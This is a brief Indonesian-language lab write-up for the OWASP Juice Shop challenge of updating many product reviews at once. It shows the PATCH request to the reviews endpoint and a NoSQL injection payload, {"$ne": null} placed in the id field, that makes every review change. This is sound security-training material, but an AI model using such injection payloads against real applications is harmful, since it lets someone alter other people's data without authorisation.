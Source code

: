 Update multiple product reviews at the same time. 
https://juice-shop.herokuapp.com/#/score-board?categories=Injection 

Hal-hal yang saya lakukan :
1. Melihat cara server memperbarui sebuah review dan didapatkan 
PATCH /rest/products/reviews HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/json
___
___
{
  "id": "id dari yang direview",
  "message": "updated"
}
2. Karena dia mengupdated berdasarkan idnya maka kita bisa membuat sebuah payload yang akan mengcover semua id yang bukan null dengan {"$ne": null} 
3. Lalu kita hanya tinggal menngganti id yang direview dengan payloadnya maka semuanya akan berganti ke updated
4. Maka kita berhasil mengubah semua review dalam satu kali mengupdated. 

Bukti 

![alt text](assets/NoSQL.png)

![alt text](assets/NoSQL2.png)

#### Berhasil 